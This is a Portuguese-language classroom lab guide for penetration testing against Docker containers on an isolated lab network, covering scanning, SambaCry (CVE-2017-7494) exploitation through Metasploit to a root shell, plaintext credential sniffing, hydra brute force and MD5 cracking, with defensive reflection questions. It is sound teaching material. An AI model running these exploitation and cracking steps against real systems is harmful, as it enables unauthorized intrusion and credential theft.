

# Roteiro de Laboratório: Testes de Intrusão com Kali Linux em Ambiente Docker

**Duração estimada:** 4 horas
**Formato:** Prático, em duplas
**Data:** 23/09/2026

---

## O que é feito antes da aula x durante a aula

> **Antes da aula (Atividade 0 - "Preparando o ambiente"):** você prepara o ambiente sozinho, em casa, com antecedência - instalar o Docker, baixar o pacote de imagens, subir os containers e confirmar que os 2 alvos estão no ar. Nada disso acontece no dia da aula.
>
> **No dia da aula (Atividades 1 a 7):** com o ambiente já pronto, você executa ao vivo, no laboratório:
> - **Atividade 1** - Reconhecimento e enumeração dos alvos
> - **Atividade 2** - Análise de vulnerabilidades
> - **Atividade 3** - Exploração remota via Metasploit (SambaCry)
> - **Atividade 4** - Sniffing de credenciais
> - **Atividade 5** - Força bruta online
> - **Atividade 6** - Quebra de hash offline
> - **Atividade 7** - Pós-exploração e reflexão sobre detecção/defesa
>
> Se você já fez a Atividade 0 em casa e confirmou o checklist, pode ir direto para a Atividade 1 no dia da aula.

---

## Sumário

1. [Introdução: a metodologia de um teste de intrusão](#1-introdução-a-metodologia-de-um-teste-de-intrusão)
2. [Escopo e uso responsável](#2-escopo-e-uso-responsável)
3. [Atividade 0 - Preparando o ambiente](#3-atividade-0---preparando-o-ambiente)
4. [Atividade 1 - Reconhecimento e Enumeração](#4-atividade-1---reconhecimento-e-enumeração)
5. [Atividade 2 - Análise de Vulnerabilidades](#5-atividade-2---análise-de-vulnerabilidades)
6. [Atividade 3 - SambaCry via Metasploit](#6-atividade-3---sambacry-via-metasploit)
7. [Atividade 4 - Sniffing de credenciais](#7-atividade-4---sniffing-de-credenciais)
8. [Atividade 5 - Força bruta online](#8-atividade-5---força-bruta-online)
9. [Atividade 6 - Quebra de hash offline](#9-atividade-6---quebra-de-hash-offline)
10. [Atividade 7 - Pós-Exploração](#10-atividade-7---pós-exploração)
11. [Resumo das ferramentas e próximos passos](#11-resumo-das-ferramentas-e-próximos-passos)

> **Não tem o Kali instalado ainda?** Antes de continuar, siga o [`guia-instalacao-kali-vm.md`](https://github.com/peotta/lab-kali-docker/blob/main/guia-instalacao-kali-vm.md) para instalar o Kali Linux em máquina virtual (VirtualBox ou VMware). Depois volte aqui e continue a partir da Seção 3.

---

## 1. Introdução: a metodologia de um teste de intrusão

Um teste de intrusão (pentest) não é uma sequência aleatória de comandos - é um processo com fases bem definidas, cada uma alimentando a próxima:



- **Reconhecimento:** mapear o que existe na rede - hosts ativos, portas abertas.
- **Enumeração:** identificar exatamente quais serviços e versões estão rodando em cada porta.
- **Análise de vulnerabilidades:** cruzar essas versões com falhas conhecidas (CVEs).
- **Exploração:** usar uma falha identificada para obter acesso não autorizado.
- **Pós-exploração:** uma vez com acesso, entender o que esse acesso permite e qual rastro ele deixa.

Neste laboratório você vai passar por todas essas fases contra alvos propositalmente vulneráveis, rodando em containers Docker isolados.

---

## 2. Escopo e uso responsável

> ⚠️ **Todo comando e técnica deste roteiro deve ser usado exclusivamente contra os alvos abaixo, dentro da rede isolada do laboratório (`172.20.0.0/24`). Usar as mesmas técnicas contra qualquer sistema real sem autorização expressa por escrito é crime no Brasil (Lei 12.737/2012 - "Lei Carolina Dieckmann" - e Lei 14.155/2021).**

Isso não é burocracia: a diferença entre um profissional de segurança e um criminoso não está na técnica usada, e sim na **autorização**. Todo pentest profissional começa com um contrato de escopo assinado, definindo exatamente quais sistemas podem ser testados, por quanto tempo, e com quais técnicas. O hábito de sempre confirmar o escopo antes de rodar qualquer ferramenta é o primeiro reflexo profissional que você deve desenvolver.

---

## 3. Atividade 0 - Preparando o ambiente

> **Pré-requisito:** este roteiro pressupõe que você já tem um **Kali Linux** funcional (nativo ou em máquina virtual). Se ainda não tiver, instale usando o [`guia-instalacao-kali-vm.md`](https://github.com/peotta/lab-kali-docker/blob/main/guia-instalacao-kali-vm.md) antes de continuar - o guia cobre VirtualBox e VMware com a imagem pré-construída oficial.

### 3.1 Por que Docker?

Em vez de subir máquinas virtuais completas (pesadas, lentas para resetar), usamos containers: cada alvo vulnerável é uma aplicação isolada, leve, que sobe e derruba em segundos. Todo o ambiente roda **no seu próprio notebook** - nenhum alvo depende de servidor externo ou de rede durante a aula.

### 3.2 Instalando o Docker no Kali

O Kali **não** vem com Docker pré-instalado por padrão, e os pacotes do repositório oficial dele têm nomes/disponibilidade inconsistentes - o caminho mais confiável é o instalador oficial da própria Docker. Siga os passos na ordem, mesmo que algum pareça repetitivo - cada um resolve um problema específico que já apareceu na prática.

**Passo 1 - Instalador oficial:**

```bash
curl -fsSL https://get.docker.com -o get-docker.sh
sudo sh get-docker.sh
```

**Se aparecer o erro `the repository 'https://download.docker.com/linux/debian kali-rolling Release' does not have a Release file`:** é um problema conhecido - o script detecta o Kali como Debian, mas usa o codinome `kali-rolling`, que os repositórios do Docker não reconhecem. Corrija apontando manualmente para um codinome Debian válido:

```bash
sudo rm /etc/apt/sources.list.d/docker.list
echo "deb [arch=amd64 signed-by=/etc/apt/keyrings/docker.asc] https://download.docker.com/linux/debian bookworm stable" | sudo tee /etc/apt/sources.list.d/docker.list
sudo apt-get update
sudo apt-get install -y docker-ce docker-ce-cli containerd.io docker-buildx-plugin docker-compose-plugin
```

**Não instale `podman-docker`** mesmo que o terminal sugira esse pacote em alguma mensagem de erro - ele cria um comando `docker` que na verdade roda o Podman por baixo (motor de container diferente), o que causa comportamentos inconsistentes com o [`docker-compose.yml`](https://github.com/peotta/lab-kali-docker/blob/main/docker-compose.yml) deste laboratório (especialmente rede com IP fixo). Se você instalou por engano, remova antes de seguir:

```bash
sudo apt remove -y podman-docker
sudo apt autoremove -y
```

**Passo 2 - Aplicar permissão de grupo:**

```bash
sudo usermod -aG docker $USER
```

Essa mudança só vale para sessões de terminal **novas**. Se o comando `docker` der `permission denied` depois disso, rode:

```bash
newgrp docker
```

Isso aplica o grupo na sessão atual sem precisar fechar o terminal. Se em outro terminal novo o erro voltar a aparecer, repita o `newgrp docker` nele também (ou faça logout/login completo da sessão gráfica uma vez, para aplicar de vez em todas as sessões futuras).

**Passo 3 - Confirme que funcionou:**

```bash
docker --version
docker compose version
docker run hello-world
```

**Resultado esperado (`docker --version` / `docker compose version`):**

```
Docker version 29.8.0, build 88096ef
Docker Compose version v5.5.1
```

**Resultado esperado do `docker run hello-world`:**

```
Hello from Docker!
This message shows that your installation appears to be working correctly.

To generate this message, Docker took the following steps:
 1. The Docker client contacted the Docker daemon.
 2. The Docker daemon pulled the "hello-world" image from the Docker Hub.
    (amd64)
 3. The Docker daemon created a new container from that image which runs the
    executable that produces the output you are currently reading.
 4. The Docker daemon streamed that output to the Docker client, which sent it
    to your terminal.
```

Se aparecer essa mensagem, o Docker está funcionando corretamente.

### 3.3 Os alvos deste laboratório

| Alvo | Container | IP | Portas | O que é |
|---|---|---|---|---|
| Página de login simples | `alvo-login` | 172.20.0.10 | 80 | Formulário de login em PHP puro (sniffing/brute force) + diretório `/admin/` escondido com hash vazado (enumeração/cracking) |
| Samba 4.6.3 (SambaCry) | `alvo-samba` | 172.20.0.13 | 445, 6699 | Servidor de arquivos com a falha crítica CVE-2017-7494 |

### 3.4 Criando o diretório de trabalho e clonando o repositório

Antes de mais nada, escolha e crie um diretório fixo para o laboratório - isso evita confusão sobre "onde estão os arquivos" mais tarde. Recomendo dentro da sua pasta `Desktop`:

```bash
mkdir -p ~/Desktop
cd ~/Desktop
```

Agora clone o repositório do laboratório **dentro** dessa pasta - o `git clone` cria automaticamente uma subpasta com o nome do repositório (`lab-kali-docker/`), já contendo o [`docker-compose.yml`](https://github.com/peotta/lab-kali-docker/blob/main/docker-compose.yml), o [`smb.conf`](https://github.com/peotta/lab-kali-docker/blob/main/smb.conf) e a pasta `login-simples/` prontos (o professor já deixou tudo commitado):

```bash
git clone https://github.com/peotta/lab-kali-docker.git
cd ~/Desktop/lab-kali-docker
```

A partir daqui, **todo comando deste roteiro deve ser rodado com o terminal dentro de `~/Desktop/lab-kali-docker`**, a não ser que eu diga explicitamente o contrário.

### 3.5 Baixando o pacote de imagens **antes** da aula - importante!

As imagens dos alvos são distribuídas prontas, já construídas, em um único arquivo `.tar` (~391MB), para você não depender de baixar/compilar nada durante a aula. **Faça esta etapa até 21/09 (2 dias antes da aula, no máximo)** - não deixe para o dia 23/09.

```bash
cd ~/Desktop/lab-kali-docker
wget https://github.com/peotta/lab-kali-docker/releases/download/v1.0/lab-images.tar
```

Isso salva o arquivo em `~/Desktop/lab-kali-docker/lab-images.tar`. Carregue no Docker:

```bash
docker load -i lab-images.tar
docker images
```

**Resultado esperado do `docker images`:**

```
REPOSITORY                              TAG        IMAGE ID       SIZE
lab-kali-docker/login-simples           latest     12e85951ac23   707MB
vulhub/samba                            4.6.3      ba1886fa5d9d   913MB
```

Se por algum motivo o link não estiver acessível, um pendrive com `lab-images.tar` estará disponível - procure o professor com antecedência, não no dia da aula.

### 3.6 Onde cada arquivo fica no disco

Depois do clone e do download do `.tar`, sua pasta `~/Desktop/lab-kali-docker/` deve estar assim:

```
~/Desktop/lab-kali-docker/
├── docker-compose.yml              <- veio do git clone, já pronto
├── smb.conf                        <- veio do git clone, já pronto
├── lab-images.tar                  <- você baixou agora, via wget
└── login-simples/                  <- veio do git clone, já pronto
    ├── Dockerfile
    ├── index.php
    └── admin/
        ├── index.html
        └── backup_users.txt
```

Confirme com:

```bash
ls -la ~/Desktop/lab-kali-docker/
```

Você **não precisa criar** nenhum desses arquivos manualmente - eles já vêm prontos no repositório. Os conteúdos abaixo ([`docker-compose.yml`](https://github.com/peotta/lab-kali-docker/blob/main/docker-compose.yml) e [`smb.conf`](https://github.com/peotta/lab-kali-docker/blob/main/smb.conf)) estão aqui só para referência, caso queira entender o que cada um faz ou precise recriá-los em caso de algum problema:

**`~/Desktop/lab-kali-docker/docker-compose.yml`:**

```yaml
version: "3.8"

networks:
  lab_redsec:
    driver: bridge
    ipam:
      config:
        - subnet: 172.20.0.0/24

services:
  login-simples:
    image: lab-kali-docker/login-simples:latest
    container_name: alvo-login
    networks:
      lab_redsec:
        ipv4_address: 172.20.0.10
    ports:
      - "80:80"
    restart: unless-stopped

  samba:
    image: vulhub/samba:4.6.3
    container_name: alvo-samba
    tty: true
    volumes:
      - ./smb.conf:/usr/local/samba/etc/smb.conf
    networks:
      lab_redsec:
        ipv4_address: 172.20.0.13
    ports:
      - "445:445"
      - "6699:6699"
    restart: unless-stopped
```

**`~/Desktop/lab-kali-docker/smb.conf`:**

```ini
[global]
    map to guest = Bad User
    server string = Samba Server Version %v
    guest account = nobody

[myshare]
    path = /home/share
    read only = no
    guest ok = yes
    guest only = yes
```

Esse compartilhamento (`myshare`) é anônimo e gravável de propósito - é justamente essa combinação que o exercício da Atividade 3 explora.

Se o link/repositório do professor não estiver disponível e você precisar recriar esses dois arquivos do zero, use `nano ~/Desktop/lab-kali-docker/docker-compose.yml` e `nano ~/Desktop/lab-kali-docker/smb.conf`, colando o conteúdo acima em cada um.

### 3.7 Subindo o ambiente

```bash
cd ~/Desktop/lab-kali-docker
docker compose up -d
docker compose ps
```

**Resultado esperado:**

```
[+] up 3/3
 ✔ Network lab-kali-docker_lab_redsec Created
 ✔ Container alvo-samba               Started
 ✔ Container alvo-login               Started

NAME         IMAGE                                  SERVICE         STATUS         PORTS
alvo-login   lab-kali-docker/login-simples:latest   login-simples   Up             0.0.0.0:80->80/tcp
alvo-samba   vulhub/samba:4.6.3                     samba           Up             0.0.0.0:445->445/tcp, 0.0.0.0:6699->6699/tcp
```

Para resetar tudo do zero a qualquer momento (por exemplo, se um exercício "bagunçar" o alvo):

```bash
docker compose down -v
docker compose up -d
```

### 3.8 Checklist de verificação prévia

Faça isto em casa, **antes** do dia da aula, e não durante:

- [ ] `docker run hello-world` funcionou sem erro
- [ ] `docker load -i lab-images.tar` concluído, `docker images` mostra as 2 imagens
- [ ] `docker compose up -d` sobe os 2 containers sem erro
- [ ] `docker compose ps` mostra os 2 alvos como `Up`
- [ ] Você consegue acessar `http://172.20.0.10` (página de login) pelo navegador

Se algum item falhar, procure o professor com antecedência - resolver isso no dia da aula tira tempo de prática de todo mundo.

**Requisito de máquina:** os 2 containers juntos consomem pouco. Qualquer notebook rodando Kali (nativo ou em VM) com 4GB+ de RAM alocados é suficiente.

---

## 4. Atividade 1 - Reconhecimento e Enumeração

### 4.1 O que estamos fazendo aqui

Antes de atacar qualquer coisa, você precisa saber **o que existe**. Reconhecimento é descobrir hosts ativos; enumeração é descobrir, em cada host, quais portas estão abertas, quais serviços rodam nelas e quais versões.

### 4.2 `nmap` - o mapeador de rede

| Flag | O que faz |
|---|---|
| `-sn` | Apenas descobre hosts ativos (ping scan), sem varrer portas |
| `-sV` | Detecta a **versão** do serviço em cada porta aberta |
| `-sC` | Roda scripts padrão do nmap (banners, informações extras) |
| `-p-` | Varre **todas** as 65535 portas |
| `-A` | Modo agressivo: combina `-sV`, `-sC`, detecção de SO e traceroute |

**Passo 1 - Descobrir hosts ativos:**

```bash
nmap -sn 172.20.0.0/24
```

**Passo 2 - Varredura de versão nos alvos:**

```bash
nmap -sV -sC -p- 172.20.0.10
nmap -sV -p 445 172.20.0.13
```

**Resultado esperado (Samba):**

```
PORT    STATE SERVICE     VERSION
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: <nome-do-container>
```

### 4.3 Enumeração de aplicações web

```bash
whatweb http://172.20.0.10
nikto -h http://172.20.0.10
gobuster dir -u http://172.20.0.10 -w /usr/share/wordlists/dirb/common.txt
```

- `whatweb` funciona como um "fingerprint": olha cabeçalhos HTTP, cookies e conteúdo da página para adivinhar a stack tecnológica.
- `nikto` é um scanner automatizado que testa milhares de configurações inseguras conhecidas.
- `gobuster` faz força bruta de URLs: tenta uma lista de nomes comuns contra o servidor para achar caminhos que não estão linkados na navegação normal.

**Resultado esperado do `gobuster` neste alvo:**

```
.htaccess            (Status: 403) [Size: 316]
.hta                 (Status: 403) [Size: 316]
.htpasswd             (Status: 403) [Size: 316]
admin                 (Status: 301) [Size: 350] [--> http://172.20.0.10/admin/]
index.php             (Status: 200) [Size: 426]
server-status         (Status: 403) [Size: 316]
```

Repare no `admin (Status: 301)` - é o diretório escondido, não linkado em nenhum lugar da aplicação. Acesse:

```bash
curl http://172.20.0.10/admin/
```

**Resultado esperado:**

```html
<!DOCTYPE html>
<html lang="pt-br">
<head>
    <meta charset="UTF-8">
    <title>Painel Administrativo</title>
</head>
<body>
    <h1>Painel Administrativo</h1>
    <p>Este recurso não está linkado em nenhum lugar da aplicação.</p>
    <p>Se você chegou até aqui, foi por enumeração de diretórios...</p>
</body>
</html>
```

Guarde esse diretório na memória - ele volta a ser útil na Atividade 6.

**Checkpoint:** ao final desta atividade você deve ter, para cada alvo, porta → serviço → versão → tecnologia, além do diretório `/admin/` encontrado.

---

## 5. Atividade 2 - Análise de Vulnerabilidades

### 5.1 O que é uma CVE

CVE (*Common Vulnerabilities and Exposures*) é um identificador padronizado para uma vulnerabilidade conhecida publicamente. Cada CVE tem uma pontuação de severidade (CVSS, de 0 a 10) que indica o quão fácil e o quão grave é explorá-la.

### 5.2 `searchsploit` - cruzando versão com exploit conhecido

```bash
searchsploit samba 4.6.3
```

**Resultado esperado (formato aproximado - o conteúdo exato do banco muda com atualizações):**

```
--------------------------------------------------------- ---------------------------------
 Exploit Title                                            |  Path
--------------------------------------------------------- ---------------------------------
Samba - is_known_pipename() Arbitrary Module Load ...     | linux/remote/XXXXX.rb
--------------------------------------------------------- ---------------------------------
```

Esse é o exploit que vamos usar na Atividade 3, correspondente à CVE-2017-7494.

### 5.3 Exercício

Para o Samba, responda:

- Qual a CVE associada? (`CVE-2017-7494`)
- Qual o CVSS? (9.8 - crítico)
- O exploit requer autenticação prévia? (Não - basta um compartilhamento anônimo gravável)

---

## 6. Atividade 3 - SambaCry via Metasploit

**Contexto histórico:** em maio de 2017, poucas semanas depois do WannaCry (que explorou o EternalBlue no Windows), foi divulgada uma falha equivalente no **Samba** - o servidor de arquivos padrão em ambientes Linux/Unix. A imprensa apelidou a falha de **SambaCry**. A causa raiz é uma função (`is_known_pipename`) que permite carregar uma biblioteca (`.so`) de qualquer caminho que o atacante conseguir escrever num compartilhamento - bastando um share anônimo com permissão de escrita.

**Passo 1 - Confirmar a versão do serviço:**

```bash
nmap -sV -p 445 172.20.0.13
```

(mesmo resultado já mostrado na Atividade 1)

**Passo 2 - Verificar o compartilhamento disponível:**

```bash
smbclient -L 172.20.0.13 -N
```

**Resultado esperado:**

```
        Sharename       Type      Comment
        ---------       ----      -------
        myshare         Disk
        IPC$            IPC       IPC Service (Samba Server Version 4.6.3)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
```

**Passo 3 - Explorar com o Metasploit Framework:**

```bash
msfconsole

msf6 > search CVE-2017-7494
msf6 > use exploit/linux/samba/is_known_pipename
msf6 exploit(linux/samba/is_known_pipename) > set RHOSTS 172.20.0.13
msf6 exploit(linux/samba/is_known_pipename) > set SMB_FOLDER myshare
msf6 exploit(linux/samba/is_known_pipename) > run
```

**Resultado esperado:**

```
[*] Exploiting target 172.20.0.13
[*] 172.20.0.13:445 - Using location \\172.20.0.13\myshare\ for the path
[*] 172.20.0.13:445 - Retrieving the remote path of the share 'myshare'
[*] 172.20.0.13:445 - Share 'myshare' has server-side path '/home/share
[*] 172.20.0.13:445 - Uploaded payload to \\172.20.0.13\myshare\<nome-aleatorio>.so
[*] 172.20.0.13:445 - Loading the payload from server-side path /home/share/<nome-aleatorio>.so using \\PIPE\/home/share/<nome-aleatorio>.so...
[-] 172.20.0.13:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 172.20.0.13:445 - Loading the payload from server-side path /home/share/<nome-aleatorio>.so using /home/share/<nome-aleatorio>.so...
[+] 172.20.0.13:445 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 1 opened (172.20.0.1:45689 -> 172.20.0.13:445)
```

> A linha `Failed to load STATUS_OBJECT_NAME_NOT_FOUND` é normal - o módulo tenta duas formas de referenciar o caminho do payload, e a primeira falha antes da segunda funcionar. Isso não significa que o exploit falhou.

**Passo 4 - Confirmar o nível de acesso obtido:**

```bash
whoami
id
uname -a
```

**Resultado esperado:**

```
root
uid=0(root) gid=0(root) groups=0(root)
Linux 4943bf45512e 6.19.14+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.19.14-1+kali1 (2026-05-05) x86_64 x86_64 x86_64 GNU/Linux
```

(o nome do host - `4943bf45512e` no exemplo acima - muda a cada vez que o container é recriado; é só o ID gerado automaticamente pelo Docker)

Acesso root completo, sem nenhuma credencial - só explorando a combinação "compartilhamento anônimo gravável" + "função vulnerável do Samba".

**Para refletir:** por que um compartilhamento de arquivos anônimo e gravável é um risco tão sério, mesmo sem nenhuma vulnerabilidade de código associada?

---

## 7. Atividade 4 - Sniffing de credenciais

**Conceito:** protocolos que trafegam sem criptografia (HTTP puro, FTP, Telnet) enviam dados - inclusive login e senha - em texto claro pela rede. Qualquer pessoa capaz de "escutar" o tráfego consegue ler esses dados sem quebrar senha nenhuma, sem explorar bug nenhum - só observando passivamente.

**Passo 1 - Identifique a interface de rede correta:**

```bash
ip a | grep -A 2 "br-"
```

O Docker cria uma interface `br-xxxxxxxxxxxx` para a rede `lab_redsec` (IP `172.20.0.1/24`, `state UP`) - é nela que o tráfego dos containers passa. **O nome exato muda toda vez que a rede é recriada** (ex.: `docker compose down` seguido de `up`), então confirme antes de cada captura.

**Passo 2 - Inicie a captura, filtrando por "senha":**

```bash
sudo ngrep -i "senha" -d br-xxxxxxxxxxxx
```

Troque `br-xxxxxxxxxxxx` pelo nome real da interface.

**Passo 3 - Gere o tráfego, em outra janela/navegador:**

Acesse `http://172.20.0.10` e envie o formulário:

```
usuário: admin
senha: password123
```

**Passo 4 - Confira a captura:**

**Resultado esperado no terminal do `ngrep`** (formato do corpo do POST, já confirmado via teste direto do formulário):

```
T 172.20.0.1:xxxxx -> 172.20.0.10:80 [AP]
  POST / HTTP/1.1..Host: 172.20.0.10..
  ...
  usuario=admin&senha=password123
```

Credenciais capturadas em texto claro, sem nenhuma interação com o servidor além de observar o tráfego passivamente.

**Para refletir:** por que isso não teria funcionado se essa página rodasse com HTTPS em vez de HTTP puro?

---

## 8. Atividade 5 - Força bruta online

**Conceito:** enquanto a Atividade 4 interceptava uma senha que já estava sendo usada, a força bruta **tenta** senhas até acertar. Funciona quando o serviço não limita o número de tentativas de login.

**Passo 1 - Monte uma lista de senhas para testar:**

```bash
echo -e "123456\nadmin\npassword\npassword123\nletmein\nqwerty" > /tmp/senhas.txt
```

**Passo 2 - Rode o `hydra` contra o formulário:**

```bash
hydra -l admin -P /tmp/senhas.txt 172.20.0.10 http-post-form \
  "/:usuario=^USER^&senha=^PASS^:F=incorretos"
```

**Resultado esperado:**

```
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in
military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:1/p:6), ~1 try per task
[DATA] attacking http-post-form://172.20.0.10:80/:usuario=^USER^&senha=^PASS^:F=incorretos
[80][http-post-form] host: 172.20.0.10   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished
```

A sintaxe do `http-post-form` tem três partes separadas por `:`: o caminho (`/`), o corpo do POST (com `^USER^`/`^PASS^` como marcadores substituídos a cada tentativa), e `F=incorretos` - a palavra que aparece na resposta quando o login **falha**.

**Para refletir:** por que uma wordlist pequena e "óbvia" já foi suficiente aqui? O que um limite de tentativas ou CAPTCHA mudariam?

---

## 9. Atividade 6 - Quebra de hash offline

**Conceito:** até agora, os ataques a senha foram **online** - cada tentativa envia uma requisição real ao servidor. Quando o atacante consegue um **hash** de senha vazado, pode tentar quebrá-lo **offline**, sem comunicação com o servidor - sem limite de tentativas, sem gerar log nenhum no alvo.

**Passo 1 - Encontre o arquivo vazado:**

Você já descobriu o painel `/admin/` na Atividade 1. Tente também:

```bash
curl http://172.20.0.10/admin/backup_users.txt
```

**Resultado esperado:**

```
admin:482c811da5d5b4bc6d497ffa98491e38
```

**Passo 2 - Identifique o tipo de hash e salve:**

O hash tem 32 caracteres hexadecimais - padrão **MD5**.

```bash
curl -s http://172.20.0.10/admin/backup_users.txt > hash.txt
cat hash.txt
```

**Passo 3 - Quebre o hash com `john`:**

```bash
john --format=Raw-MD5 --wordlist=/tmp/senhas.txt hash.txt
john --show --format=Raw-MD5 hash.txt
```

**Resultado esperado:**

```
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (admin)
1g 0:00:00:00 DONE (2026-09-10 13:32) 50.00g/s 300.0p/s 300.0c/s 300.0C/s 123456..qwerty
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.

admin:password123

1 password hash cracked, 0 left
```

**Passo 3 (alternativa) - Quebre o mesmo hash com `hashcat`:**

Se necessário, instale o runtime OpenCL para rodar sem GPU dedicada:

```bash
sudo apt install -y pocl-opencl-icd
```

```bash
echo "482c811da5d5b4bc6d497ffa98491e38" > hash_hashcat.txt
hashcat -m 0 -a 0 hash_hashcat.txt /tmp/senhas.txt
```

- `-m 0` → tipo de hash (0 = MD5)
- `-a 0` → modo de ataque (0 = wordlist direta)

**Resultado esperado:**

```
Hashes: 1 digests; 1 unique digests, 1 unique salts

482c811da5d5b4bc6d497ffa98491e38:password123

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
```

Para ver de novo depois:

```bash
hashcat -m 0 hash_hashcat.txt --show
```

A senha descoberta (`password123`) é a mesma da Atividade 5 - só que dessa vez sem nenhuma interação com o servidor.

**Para refletir:** por que um hash MD5 vazado é tão mais fácil de quebrar do que impedir a interceptação de tráfego ou bloquear tentativas de login? O que uma função de hash mais lenta e com "salt" (como bcrypt) mudaria?

---

## 10. Atividade 7 - Pós-Exploração

### 10.1 O que fazer depois de obter acesso

Obter shell não é o fim do trabalho - é o começo da fase de avaliação de impacto.

```bash
whoami       # qual usuário você é
id           # quais grupos/privilégios esse usuário tem
uname -a     # informações do sistema operacional
ls -la /     # explore o sistema de arquivos, dentro dos limites do container
```

(mesmo resultado já mostrado na Atividade 3, seção Passo 4)

### 10.2 Pensando como o time de defesa (Blue Team)

Toda ação de ataque deixa rastro. Consulte os logs do container que você explorou via Metasploit:

```bash
docker logs alvo-samba
```

**Para refletir:** olhando esse log, seria possível detectar o ataque que você acabou de executar? E nos casos das Atividades 4 e 5 - sniffing (que não deixa rastro nenhum no servidor) e brute force (que gera uma enxurrada de tentativas de login) - que sinais diferentes cada um deixaria para um time de segurança monitorando? O que isso muda na forma de se defender de cada tipo de ataque?

---

## 11. Resumo das ferramentas e próximos passos

| Ferramenta | Atividade | Para que serve |
|---|---|---|
| `nmap` | 1 | Descobrir hosts, portas e versões de serviço |
| `whatweb` | 1 | Identificar tecnologias de uma aplicação web |
| `nikto` | 1 | Varredura automatizada de configurações inseguras |
| `gobuster` | 1 | Força bruta de diretórios/arquivos web |
| `searchsploit` | 2 | Buscar exploits públicos por versão de software |
| `msfconsole` (Metasploit) | 3 | Framework de exploração modular |
| `smbclient` | 3 | Listar e interagir com compartilhamentos SMB/Samba |
| `ngrep` | 4 | Capturar e filtrar tráfego de rede em texto claro |
| `hydra` | 5 | Testar listas de credenciais contra serviços de login |
| `john` (John the Ripper) | 6 | Quebrar hashes de senha vazados, offline |
| `hashcat` | 6 | Alternativa ao `john`, otimizada para GPU (funciona em CPU também) |

### Para estudar além desta aula

- [Vulhub](https://github.com/vulhub/vulhub) - catálogo com dezenas de outras CVEs prontas para praticar em Docker
- [Metasploit Unleashed](https://www.offsec.com/metasploit-unleashed/) - curso gratuito e completo sobre Metasploit
- [OWASP Top 10](https://owasp.org/www-project-top-ten/) - as vulnerabilidades mais críticas em aplicações web
- [Exploit-DB](https://www.exploit-db.com/) - versão online do banco usado pelo `searchsploit`

---

Material produzido pelo professor Laerte Peotta de Melo, com auxílio da IA Claude (Anthropic).
